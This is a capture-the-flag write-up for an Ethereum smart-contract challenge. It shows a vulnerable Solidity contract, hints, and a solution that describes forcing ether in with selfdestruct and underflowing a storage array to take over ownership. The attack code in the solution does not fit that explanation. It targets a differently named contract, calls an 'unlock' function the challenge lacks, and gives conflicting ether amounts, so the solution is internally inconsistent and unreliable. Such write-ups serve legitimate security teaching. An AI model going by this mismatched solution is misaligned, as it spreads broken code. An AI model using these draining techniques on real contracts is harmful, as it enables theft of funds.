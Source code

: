 # Warmup

## Setup

The challenge is available at http://ethereum.sharkyctf.xyz/level/4

Before starting, it is recommended to follow the suggested steps at http://ethereum.sharkyctf.xyz/help to setup Metamask, get Ether from a Ropsten faucet, and Remix IDE.

## Challenge

The contract to attack is the following :

```solidity
pragma solidity = 0.4.25;

contract Shashasha {
    address public owner;
    uint256 public money;
    
    mapping(address => uint256) private contributions;    
    
    bool public hacker;
    uint[] public godlike;
    
    constructor() public payable {
        owner = msg.sender;
        contributions[owner] = msg.value * 9999999999999;
        money += msg.value;
        hacker = false;
    }
    
    function becomingHacker() public {
        require(address(this).balance != money);
        contributions[msg.sender] = 100;
        hacker = true;
    }

    function remove() public{
        require(hacker);
        godlike.length--;
    }
 
    function append(uint256 _value) public{
        require(hacker);
        godlike.push(_value);
    }
 
    function update(uint256 _key, uint256 _value) public {
        require(hacker);        
        godlike[_key] = _value;
    }
    
    function withdraw() public payable {
        require(contributions[msg.sender] > contributions[owner]);
        msg.sender.call.value(address(this).balance)();
    }
    
    function getContrib(address _key) public view returns(uint256) {
        return contributions[_key];
    }
}
```

The goal is then to be able to call `withdraw()` from the contract.

## Hint

This contract can be hacked in two steps.

First, it seems that we need to become a hacker, but how would we do that if the balance is equal to the money, and we cannot call anything ? Is there a way to send ether directly to the contract ?

Secondly, once you become a hacker there seems to be very few things to do. But does access to the `godlike` mapping provide you with 'godlike' powers ?

## Solution

This challenge can be solved in two steps, first become a hacker, then exploit the `godlike` mapping to modify the state of the other variables.

To do the first one, you need to exploit the fact that when contracts call `selfdestruct(target)`, the ether they contained will be sent to the target, without calling any fallback function. This way, we can just create a contract we will selfdestruct to disturb the balance of our target contract, allowing us to become hacker.

Then we need to exploit the `godlike` mapping. To do so, we will follow the mapping exploit, explained here https://medium.com/coinmonks/smart-contract-exploits-part-2-featuring-capture-the-ether-math-31a289da0427 at point 10. about mappings. The idea is to underflow the mapping, then change the value of owner.

To attack this contract, we will create another contract called Attack, which will be called to attack the first contract.

In the same Solidity file, add the following code :

```solidity
contract Attack {
    Warmup public target;
    
     constructor (address _adress) public {
        target = Warmup(_adress);
    }
    
    function attack() public payable {
        
        // We send the 0.005 ether to the target
        target.unlock.value(0.005 ether)();
        
        // Once it is unlocked we withdraw the money;
        target.withdraw();
    }
}
```

The code is pretty straightforward, we initialize the Attack contract with the address of the targeted contract, then we call the method `attack()`, with a value of 1 ether for example. The `attack()` method will then send the 0.005 ether needed by the targeted contract to unlock, and afterwards we simply withdraw the funds.